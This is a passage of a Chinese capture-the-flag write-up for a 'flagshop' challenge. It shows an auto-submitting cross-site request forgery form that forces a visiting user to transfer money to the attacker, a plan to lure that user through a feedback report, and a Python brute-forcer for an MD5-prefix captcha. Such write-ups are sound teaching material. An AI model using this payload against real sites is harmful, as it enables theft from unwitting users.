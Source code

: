 **multipart/form-data**：就是我们这一次用到的一种POST提交方式了

```php
<form action="http://173.82.206.142:8005/transfer.php" method=post enctype="multipart/form-data">
	<input type="text" name="target" class="form-control form-control-line" value='e'>
    //第一个input就是提交我们的转账对象，这里就是我们自己的账户了
	<input type="text" name="money" class="form-control form-control-line" value='10000000000000000000'>
    //第一个input是转账的金额
	<input type="submit" class="btn btn-success" value="转账">
    //提交按钮，我们要保证数据包的完整，下面的也是
	<textarea rows="5" name="messages" class="form-control form-control-line"></textarea>
</form>
<script>document.forms[0].submit();</script>	//这个就是写一个js自动提交，当点到这个php页面的时候，自动进行提交
```

ok，已经完成了一半了，现在需要找到一个用户，让他去点击我们的这个页面



我们看到报告页面，这里有一个用户反馈页面，我们观察到其中一条

![2020极客大挑战-flagshop](images/2020极客大挑战-flagshop.png)

我们可以提交一个报告，这个Longlong会去点击报告里的链接，这样我们就可以挟制他给我们打钱了

但我们在提交报告时遇到了一个问题，这个验证码填什么

> md5($code)[0:5] == d93b5

写一个脚本吧：

```python
import hashlib

def md5value(s):  # md5加密函数
    md5 = hashlib.md5()  # 获取一个md5加密算法对象
    md5.update(s.encode('utf-8'))  # 指定需要加密的字符串
    return md5.hexdigest()  # 获取加密后的16进制字符串

for i in range(0, 10000000):
    if md5value(str(i))[0:5] == "d93b5":	#填入值
        print(i)
        break
```
